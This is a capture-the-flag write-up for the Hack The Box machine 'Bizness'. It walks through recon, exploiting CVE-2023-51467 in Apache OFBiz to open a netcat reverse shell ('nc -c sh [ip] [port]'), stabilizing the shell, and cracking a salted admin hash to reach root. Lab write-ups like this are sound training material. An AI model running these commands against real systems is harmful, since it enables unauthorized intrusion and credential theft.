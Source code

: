 # Bizness
Hello, today we will be taking on Bizness, an easy box from HTB.
# Recon
We start with an nmap scan:

`$ nmap -sC -sV -oN nmap/Bizness 10.10.11.252`

![nmap result](https://github.com/0x7ax/Bizness/assets/91915054/59b24c86-a247-457d-9b49-b92a9241043a)
Found SSH, HTTP, and HTTPS

Since we found a hostname, we can add it to /etc/hosts using the following command:

`$ sudo echo “10.10.11.252 bizness.htb” >> /etc/hosts`

Followed HTTPS, found the following on the homepage:
- Address: A108 Adam Street, NY 535022, USA
- Phone #: +1 5589 55488 55
- Email: info@bizness.htb
  
Doesn't seem to take us anywhere.

Then did a gobuster to see if there are any other directories:

`$ gobuster dir -u https://bizness.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --wildcard -k`

I used the flags “--wildcard” and “-k” to avoid errors. Oddly, the sizes were 0 but if we got a redirection then that means we got a valid directory.

Furthermore, we found a /webtools directory that isn't default on all sites, so we can check it out

Turns out it's an Apache OFBiz portal with the version down on the right (18.12)

![OFBiz portal](https://github.com/0x7ax/Bizness/assets/91915054/07a3e27b-7ae1-488d-ae14-52bd9cd5101e)

A quick Google search tells us that it's vulnerable to CVE-2023-51467, which is an interesting vulnerability that will grant us RCE. Feel free to read about it more [here](https://nvd.nist.gov/vuln/detail/CVE-2023-51467)

# Exploit | Initial foothold

I found an exploit online that will run a command on the infected service, hoping that I can get a reverse shell back 

I used [exploit.py](exploit.py), creds go to the owner. 

*Change to your desired ip and port*

- Set up a listener

`$ nc -lvnp [port]`

- Run the following command

`$ python3 exploit.py --url https://bizness.htb --cmd "nc -c sh [ip] [port]"`

![exploit](https://github.com/0x7ax/Bizness/assets/91915054/b63c4476-d35a-46b2-b7f8-dcf9de4b8caa)

We got a reverse shell! Now we have to stabilize it

`$ python3 -c ‘import pty;pty.spawn("/bin/bash")’`

Ctrl+Z

`$ stty raw -echo`

`$ fg` (click Enter twice here)

`$ export TERM=xterm`

Now, you have a full shell.

![stable](https://github.com/0x7ax/Bizness/assets/91915054/cc9eb29b-ce87-4b0a-ae0f-ad475c522e57)

We have spawn in /opt/ofbiz, which is an interesting directory, but first let's grab user.txt from /home/ofbiz

a quick command tells us that only ofbiz and root have shells so it only makes sense that ofbiz has the user.txt file

`$ cat /etc/passwd | grep bash`

![user.txt](https://github.com/0x7ax/Bizness/assets/91915054/1f0479a0-c4b8-40dc-b0fe-af927b5a9e38)

# Privesc

First, I ran linpeas.sh, which didn't tell me much except for the files in /opt/ofbiz

So I digged deeper and found an interesting file that has a SHA1 hash. 

![AdminUserLoginData.xml](https://github.com/0x7ax/Bizness/assets/91915054/7111be9a-b8c2-45e8-bf11-bf7bf56f4c0b)

We found a SHA1 hash: 47ca69ebb4bdc9ae0adec130880165d2cc05db1a

The problem with that hash is that it needs a salt which doesn't appear in the file

With more recon, we found a derby database which has the salt for the hash above

![derby database](https://github.com/0x7ax/Bizness/assets/91915054/b3e88449-f7be-442b-a060-25044556f1e5)

We can see that the hash for user admin is $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

We can crack this using john or hashcat, but a more effiecient way would be to use a script that encrypts the contents of rockyou.txt and compare it to the string we have

For that I used the following python script which I found online: [pass.py](pass.py)

![pass.py](https://github.com/0x7ax/Bizness/assets/91915054/9883b0a3-0794-4eec-880a-b26041ff0c44)

 We got a hit, *monkeybizness*
 
 Use the following command and enter the password above to privesc to root
 
 `$ su root` 
 
 ![root](https://github.com/0x7ax/Bizness/assets/91915054/b34f5cf9-b38d-45e1-b00a-dd132ac78d69)
 
# Conclusion
Bizness was an easy HTB box that has a vulnerable OFbiz platform which leads to RCE. 

This is for educational purposes only
